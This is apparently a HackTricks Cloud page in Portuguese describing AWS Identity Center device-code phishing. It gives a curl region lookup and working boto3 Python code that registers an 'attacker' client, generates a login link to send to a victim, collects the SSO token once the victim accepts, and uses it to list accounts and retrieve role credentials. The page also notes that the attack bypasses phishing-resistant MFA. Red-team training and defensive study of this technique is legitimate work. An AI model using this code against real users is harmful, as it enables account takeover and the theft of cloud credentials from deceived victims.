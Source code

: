 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Phishing de Código de Dispositivo AWS

Proposto inicialmente em [**este post do blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), é possível enviar um **link** para um usuário usando AWS SSO que, se o **usuário aceitar**, o atacante poderá obter um **token para se passar pelo usuário** e acessar todos os papéis que o usuário pode acessar no **Identity Center**.

Para realizar esse ataque, os requisitos são:

* A vítima precisa usar o **Identity Center**
* O atacante deve conhecer o **subdomínio** usado pela vítima `<victimsub>.awsapps.com/start`

Apenas com as informações anteriores, o **atacante poderá enviar um link para o usuário** que, se **aceito**, concederá ao **atacante acesso à conta do usuário AWS**.

### Ataque

1. **Encontrando o subdomínio**

O primeiro passo do atacante é descobrir o subdomínio que a empresa vítima está usando em seu Identity Center. Isso pode ser feito via **OSINT** ou **adivinhação + BF**, já que a maioria das empresas usará seu nome ou uma variação de seu nome aqui.

Com essa informação, é possível obter a região onde o Identity Center foi configurado:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Gere o link para a vítima & Envie-o**

Execute o seguinte código para gerar um link de login do AWS SSO para que a vítima possa se autenticar.\
Para a demonstração, execute este código em um console Python e não o feche, pois mais tarde você precisará de alguns objetos para obter o token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envie o link gerado para a vítima usando suas incríveis habilidades de engenharia social!

3. **Espere até que a vítima aceite**

Se a vítima já estava **conectada no AWS**, ela só precisará aceitar a concessão das permissões; se não estava, precisará **fazer login e então aceitar a concessão das permissões**.\
Assim é como o prompt aparece atualmente:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenha o token de acesso SSO**

Se a vítima aceitou o prompt, execute este código para **gerar um token SSO se passando pelo usuário**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
O token de acesso SSO é **válido por 8h**.

5. **Imitar o usuário**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

É interessante saber que o ataque anterior **funciona mesmo se um "MFA inefitável" (webAuth) estiver sendo usado**. Isso ocorre porque o **fluxo de trabalho anterior nunca sai do domínio OAuth utilizado**. Diferente de outros ataques de phishing onde o usuário precisa substituir o domínio de login, no caso, o fluxo de código do dispositivo é preparado para que um **código seja conhecido por um dispositivo** e o usuário possa fazer login mesmo em uma máquina diferente. Se o prompt for aceito, o dispositivo, apenas por **conhecer o código inicial**, será capaz de **recuperar credenciais** para o usuário.

Para mais informações sobre isso [**ver este post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
